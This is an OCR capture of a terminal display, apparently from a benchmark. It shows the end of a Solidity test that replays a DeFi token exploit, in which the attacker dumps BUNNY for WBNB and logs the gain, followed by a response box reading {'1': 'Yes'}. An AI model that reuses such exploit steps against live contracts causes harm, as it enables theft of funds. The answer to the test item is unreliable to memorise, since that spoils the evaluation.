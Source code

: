 │             uint256 amountOut = router.getAmountOut(                                                                                                                                                                                                  │
│                 bunnyBalance,                                                                                                                                                                                                                         │
│                 reserve1,                                                                                                                                                                                                                             │
│                 reserve0                                                                                                                                                                                                                              │
│             );                                                                                                                                                                                                                                        │
│                                                                                                                                                                                                                                                       │
│             IERC20(BUNNY).transfer(address(WBNBBUNNY), amountIn);                                                                                                                                                                                     │
│             WBNBBUNNY.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│             emit log_named_decimal_uint(                                                                                                                                                                                                              │
│                 "After dumping all BUNNY, WBNB balance of attacker:",                                                                                                                                                                                 │
│                 IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                │
│                 IERC20(WBNB).decimals()                                                                                                                                                                                                               │
│             );                                                                                                                                                                                                                                        │
│         }                                                                                                                                                                                                                                             │
│     }                                                                                                                                                                                                                                                 │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "Yes"}                                                                                                                                                                                                                                          │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────────── Single Choice Scenario ────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮